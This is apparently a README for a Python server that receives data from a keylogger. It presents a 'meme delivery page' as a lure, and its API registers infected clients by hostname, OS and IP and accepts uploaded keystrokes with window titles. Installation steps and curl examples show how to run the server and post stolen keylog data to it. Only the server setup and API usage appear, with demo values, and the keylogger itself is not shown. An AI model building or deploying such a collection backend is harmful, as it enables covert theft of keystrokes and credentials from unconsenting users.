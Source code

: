 ## 🛠️ Installation & Setup

### Prerequisites
- Python 3.8+
- pip (Python package installer)

### Installation Steps

1. **Install Dependencies**
   ```bash
   pip install -r requirements.txt
   ```

2. **Run the Application**
   ```bash
   python app.py
   ```

3. **Access the Application**
   - Meme delivery page: `http://localhost:5000`
   - API endpoints: `http://localhost:5000/api/`

## 🔧 API Usage Examples

### Register a Client
```bash
curl -X POST http://localhost:5000/api/register \
  -H "Content-Type: application/json" \
  -d '{
    "client_id": "demo-client-001",
    "hostname": "demo-pc",
    "os": "Windows 10",
    "ip": "192.168.1.100"
  }'
```

### Upload Keylog Data
```bash
curl -X POST http://localhost:5000/api/upload/keylogs \
  -H "Content-Type: application/json" \
  -d '{
    "client_id": "demo-client-001",
    "keylogs": [
      {
        "timestamp": "2024-01-15T10:30:00",
        "window_title": "Notepad",
        "keystrokes": "Hello World [DEMO]"
      }
    ]
  }'
```
